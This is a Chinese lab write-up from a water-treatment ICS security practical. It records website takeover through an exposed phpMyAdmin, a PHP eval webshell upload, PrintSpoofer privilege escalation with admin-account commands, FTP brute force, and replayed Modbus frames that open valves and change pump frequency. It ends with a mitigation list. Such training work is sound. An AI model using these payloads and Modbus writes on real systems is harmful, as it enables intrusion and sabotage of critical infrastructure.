

# 水处理综合实践  

## 实验环境  

先按照手册配置好下位机(水处理PLC控制)的环境，启动PLC。

我的网络拓扑如下:

> 攻击机IP：10.0.1.20
>
> 水务官网IP：10.0.1.14
>
> 上位机IP：192.168.1.36
>
> PLCIP：192.168.1.201

## 实验一  

使用攻击机桌面上的zenmap扫描水务官网的端口，得到:

使用**御剑**扫描后台，域名为水务官网IP，字典选择php.txt和综合.txt。

访问后台登陆页面：10.0.1.14/admin/login.php

按F12查看页面源码，pma(PhpMyAdmin)的管理页面在**官网ip/Pma_Debug**路径下。

进入后点击**dede**开头的数据库，然后查看**dede_admin**这张表。

根据网上查询到的[密码破解方式](https://www.cnblogs.com/danche/p/3347209.html)，由于我们可以通过对未授权的数据库执行SQL语句，故可以修改**pwd**字段

将**pwd**字段编辑后修改为`f297a57a5a743894a0e4`(对应密码明文：admin),即使用密码**admin**来执行dedecms加密后得到的MD5为`f297a57a5a743894a0e4`。

然后以帐户/密码：**admin/admin**登录后台管理页面

打开burp suite，参考[BurpSuite如何在各浏览器下配置代理_谷歌浏览器设置bp代理-CSDN博客](https://blog.csdn.net/Deeeelete/article/details/105767104)为burp和浏览器设置代理

浏览器访问`http://burp`出现如下页面即成功。

后台右下角**功能地图**进入文件式管理器(**此时要关闭burp的Intercept，不然会加载不出页面**)，注意我们的目录是**/uploads**下，选择**文件上传**上传图片文件,在burp中打开**proxy->intercept**拦截

打开burp的**intercept**进行拦截

找到我们上传的文件发送到repeater后进行修改。

修改名称后缀

下滑到最后加入一句话马`<?php @eval($_POST['cmd']); ?>`

右边响应提示上传成功。记得关闭**intercept**不然后面的正常报文都被拦截了

可以看到在/uploads目录下多了两个文件，一个win.JPG一个win.php。

记得关闭windows的代理

使用蚁剑加载器加载蚁剑的代码(为什么环境里不直接给安装好的蚁剑。。。)[中国蚁剑加载器+配置文件亲测: 收集的win64中国蚁剑，以及配置文件下载设置即可使用](https://gitee.com/miao-master/ant-sword#:~:text=中国蚁剑从V2.0.0-beta版本开始，引入了加载器。,用户%2F开发者只需要下载对应平台的加载器，无需安装额外的环境，即可对源代码进行编译%2F执行%2F调试等操作。)

添加数据，连接上传的马。

以普通用户xampp登录到水务官网主机。

后续的PrintSpoofer.exe如何来呢？[itm4n/PrintSpoofer: Abusing impersonation privileges through the "Printer Bug"](https://github.com/itm4n/PrintSpoofer)  

> 一开始没有找到PrintSpoofer.exe，故先写后面的实验去了。经人提示可能是水务官网主机的windows defender把PrintSpoofer.exe删除了，现在重启虚拟化环境，重新实例化实验环境试试。

重新实例化后，我的攻击机和水务官网IP分别如下：

> 攻击机IP：10.0.1.24
>
> 水务官网IP：10.0.1.23

重复之前的实验步骤，连接上水务官网的cmd后，将攻击机的**水处理工具包**中的**PrintSpoofer.zip**解压后上传到水务官网来使用。

上传后可以在蚁剑中看到我们上传的PrintSpoofer.exe，后续执行相应的命令即可。

分别执行两条命令

`PrintSpoofer.exe -c "net user hack 123 /add"`表示添加一个帐号为hack密码为123的帐户

` PrintSpoofer.exe-c "net localgroup administrators hack /add"`将hack帐户添加到管理员用户组

去仿真环境面板重启水务官网主机，然后以hack/123登录。

登录后获取到的flag如下，flag位于**C:\Users\Administrator\Desktop\flag**文件内

flag：`flag{27A2A821C1DB31C7}` 

至此，实验一顺利结束！

## 实验二  

根据手册先启动**上位机**，使用**administrator/admin@Elex**登录

待爆破的ftp服务器帐户名称为:**admin**

**然后转到攻击机进行操作**。

关闭实验一设置的代理

使用zenmap扫描，扫描结果如下。

开始进行弱口令爆破。

得到弱口令为:admin

在***控制面板->程序->启用或关闭Windows功能***里打开FTP服务器

> ~~后面来看好像可以不用开FTP服务器功能，这是将Windows作为ftp服务器使用的，而我们只要使用客户端，但没有测试，可以试一试。~~  

在此电脑上添加一个网络位置

选择admin帐户登录

使用admin/admin帐户登录

查看工程密码.txt：

这样我们得到了管理员帐户:`administrator`和管理员密码:`admin@Elex`

然后使用mobaxterm登录上位机，打开mobaxterm，依次选择**Session->RDP**,然后填入上位机IP和用户名，操作如下，填好后点OK，然后根据提示输入密码登录即可。

在水处理监控界面任意空白处右键选择**登录**，使用帐户/密码为`engineer/admin@Elex` 

开启水泵

**由于RDP这分辨率显示不全，后续直接用的远程连接而不是mobaxterm登录。**  

开启高压泵

最后右键空白处，点击**注销**。

至此，实验二结束。

## 实验三  

### 解析

简单学习Modbus-tcp协议

>  [ModbusTCP协议 - ioufev - 博客园](https://www.cnblogs.com/ioufev/articles/10830028.html) 
>
> [Modbus TCP协议手册.pdf](https://zhongshengkeji.oss-cn-shenzhen.aliyuncs.com/通用文档/通讯协议/Modbus TCP协议手册.pdf) 

用wireshark捕获**本地连接**中的数据包

查看一个上位机发往下位机的报文，即192.168.1.36->92.168.1.201，ModbusTCP报文内容为：

`6c 7e 00 00 00 06 01 01 01 2f 00 02`

> `6c 7e`两字节，代表报文序列号。
>
> `00 00`两字节代表ModbusTCP协议
>
> `00 06`两字节代表其后面有6个字节的数据
>
> `01`一个字节代表单元标识符，可以理解为设备地址，对一号设备操作。
>
> 接下来还剩下`01 01 2f 00 02`五个字节
>
> `01`一个字节表示这是读线圈操作
>
> `01 2f`表示线圈的起始地址为0x012f
>
> `0002`表示读取的位数为0x2位

简单看完报文，我们可以得知：

> Dstip = `192.168.1.201`  即下位机IP
>
> Dstport = `502`   报文中所显

然后进入**运行系统**， 右键空白区域，选择登录，用户/密码分别为`engineer/admin@Elex`

登陆后打开wireshark，监听**本地连接**，然后再进入**运行系统**，启动一次排水阀，关闭一次排水阀，得到这两次的报文。

通过**Write Single Coil**来判断这是一次数据写入，一共有两次，每次四个报文，第一次是开启排水阀，第二次是关闭排水阀。

先看**第一次**写入的四个报文

> 第一个报文为：`b9 1f 00 00 00 06 01 05 00 00 ff 00`
>
> 根据手册可知，其对01号设备的地址为0x0000的线圈设置为ON(0xff00)
>
> 第二个报文为应答报文，表明设置成功。
>
> 第三个报文为：`ba 1f 00 00 00 06 01 05 00 00 00 00`
>
> 这是对01号设备的地址为0x0000的线圈设置为OFF(0x0000)
>
> 第四个报文为应答报文，表明设置成功。

再来看**第二次**写入的四个报文

> 第一个报文为：`cb 1f 00 00 00 06 01 05 00 02 ff 00`
>
> 表示对01号设备的地址为0x0002的线圈设置为ON(0xff00)
>
> 第二个报文为应答报文，表明设置成功。
>
> 第三个报文为：`cc 1f 00 00 00 06 01 05 00 02 00 00`
>
> 这是对01号设备的地址为0x0002的线圈设置为OFF(0x0000)
>
> 第四个报文为应答报文，表明设置成功。

因此得知启动和停止的关键在于01号设备的地址为0x0000线圈和0X0002线圈。

### 实现  

其实代码中已经给出关键的开关报文了，现在要做的就是把**dstport**和**dstip**补充完整，把**socket.socket()**中的参数补充完整就可以运行了。

在运行python脚本之后，排水阀确实被打开了。

如要关闭则将python开启的代码注释掉，然后取消注释关闭的代码即可。

运行结果如下。

至此，实验三结束。

## 实验四

### 抓包分析

先打开**运行系统**界面，打开wireshark抓包，将高压泵其设定频率修改为**30hz**。

抓包得到如下两个Write Multiple Registers类型的包。

第一个数据包的内容为：`22 63 00 00 00 0b 01 10 00 56 00 02 04 00 00 41 f0`

表示向01号设备的从地址为0x0056开始的0x0002个寄存器写入0x04个字节[每个寄存器(16位)写入两个字节的数据]，数据一为0x0000数据二为0x41f0。

然后根据查询[IEEE 754 浮点数转换 - 锤子在线工具](https://www.toolhelper.cn/Digit/FractionConvert)，得知之前写入的**30hz**对应的单精度浮点数编码正好为**0x41f00000**。

### 操作  

然后就可以使用ModScan32工具对这两个寄存器进行数值修改达到修改转速的目的。打开ModScan32，点击Connection，输入下位机的IP进行连接。

连接完成后，新建一个文件，然后依次点击**Setup->Display Options->**, 把**Hex Addresses**勾选上。

然后设置好**Address, Length, 03:HOLDING REGISTERS**

由于modScan32软件的设计原因 [modScan32地址说明](https://blog.csdn.net/MuscleBaBa_Chang/article/details/82957002#:~:text=%E2%91%A1Address%EF%BC%8C%E6%8E%A5%E6%94%B6%E6%95%B0%E6%8D%AE%E7%9A%84%E8%B5%B7%E5%A7%8B%E5%9C%B0%E5%9D%80%EF%BC%8C%E6%9C%80%E5%B0%8F%E4%B8%BA1%EF%BC%8C%E4%B8%8D%E5%8F%AF%E4%B8%BA0%EF%BC%8Cmodbus%20tcp%E8%A7%84%E7%BA%A6%E4%B8%AD%EF%BC%8C%E7%82%B9%E8%A1%A8%E9%83%BD%E6%98%AF%E4%BB%8E0%E5%BC%80%E5%A7%8B%E7%9A%84%EF%BC%8C%E4%BD%86%E6%B5%8B%E8%AF%95%E6%97%B6%E6%98%AF%E4%BB%8E1%E5%BC%80%E5%A7%8B%E7%9A%84%EF%BC%8C%E4%BE%8B%EF%BC%9A%E9%81%A5%E4%BF%A1%E5%AE%9E%E9%99%85%E4%B8%BA0%E2%86%9299%EF%BC%8C%E6%B5%8B%E8%AF%95%E6%97%B61%E2%86%92100%EF%BC%8C%E9%81%A5%E6%B5%8B%E5%AE%9E%E9%99%85%E4%B8%BA0%E3%80%812%E3%80%814%E3%80%816%E3%80%818...100%EF%BC%8C%E6%B5%8B%E8%AF%95%E6%97%B61%E3%80%813%E3%80%815%E3%80%817%E3%80%819...101)  ，其最低地址是1，所以它的地址比报文中的地址0x0056多1从地址0x0057开始。

> ~~实验手册也有说明~~
>
> 

可以看到，地址0x0057处对应数值为0x0000，地址0x0058处对应的数值为0x41f0，正好对应30的单精度浮点数表示0x000041f0。

根据要求，需要将高压泵设定频率为55hz，查询**55**对应的单精度浮点数为**0x425C0000**。

故双击地址0x0058对应的值0x41f0修改为0x425c。

进入**运行系统**可以看到频率被修改为了55hz。

### python版

根据之前对报文的分析，修改相应python代码即可，将报文的16进制内容填入字符串中即可。

运行后进入**运行系统**界面，可以看到频率又被改回了30hz，因为我们第一次抓包的时候就是将初始的25hz修改为30hz。

至此，实验四完成

## 实验五(将记录下来的实验操作发给AI，AI分析漏洞和解决方法)

实验过程中暴露了多个安全漏洞及其对应的防范方法如下：

### 实验一漏洞及防范方法

1. **未授权访问数据库**：
   - **漏洞描述**：通过SQL注入等方式可以未经授权地访问和修改数据库中的信息，如密码字段。
   - **防范方法**：实施严格的输入验证和参数化查询来防止SQL注入攻击；确保数据库的最小权限原则，限制对敏感数据表的访问权限。

2. **后台管理页面暴露**：
   - **漏洞描述**：PhpMyAdmin等管理接口直接可通过公网IP地址访问。
   - **防范方法**：关闭或限制对外部网络的访问权限，使用防火墙规则限制访问源；启用强认证机制，例如双因素认证。

3. **文件上传漏洞**：
   - **漏洞描述**：允许上传恶意脚本文件（如一句话木马），可能导致远程代码执行。
   - **防范方法**：严格限制可上传文件类型，禁止上传可执行文件；对上传文件进行病毒扫描；存储上传文件时应避免放置在Web根目录下，并限制其执行权限。

4. **弱口令问题**：
   - **漏洞描述**：使用简单易猜的用户名/密码组合。
   - **防范方法**：强制执行复杂密码策略，定期更换密码；采用多因素身份验证提高安全性。

### 实验二漏洞及防范方法

1. **FTP服务配置不当**：
   - **漏洞描述**：FTP服务器可能存在弱口令或者默认配置不安全的情况。
   - **防范方法**：禁用不必要的服务，如无需使用的FTP服务；如果必须使用，则应加强账户管理和加密传输通道。

2. **远程桌面连接（RDP）安全性不足**：
   - **漏洞描述**：RDP连接可能被暴力破解尝试登录。
   - **防范方法**：启用网络级身份验证(NLA)，限制登录尝试次数并设置锁定时间；使用虚拟专用网络(VPN)增强安全性。

### 实验三至实验四中提到的安全性考虑较少，但基于Modbus TCP协议本身的特点，存在以下潜在风险点：

- **通信无加密**：Modbus TCP报文在网络上传输时不加密，容易遭受中间人攻击。
  - **防范方法**：在应用层面上实现加密机制，比如利用TLS封装Modbus流量；部署入侵检测系统(IDS)监控异常活动。
- **缺乏身份验证**：对控制下位机者的身份缺乏验证，任何人都可以发送报文进行控制。
  - **防范方法**：强化访问控制，增加受控机对控制人的身份验证。

- **对报文标识校验不够**：报文标识符缺乏合理验证。
  - 期望增加强时许和验证码结合的方式强化报文标识校验作用。

综上所述，在整个实验过程中发现的主要问题是围绕着身份验证、授权控制、输入验证以及通信安全等方面的弱点。为了有效防御这些威胁，需要从技术和管理两个层面出发，制定全面的安全策略，包括但不限于上述建议措施。同时，持续进行安全培训与意识提升也是至关重要的环节之一。
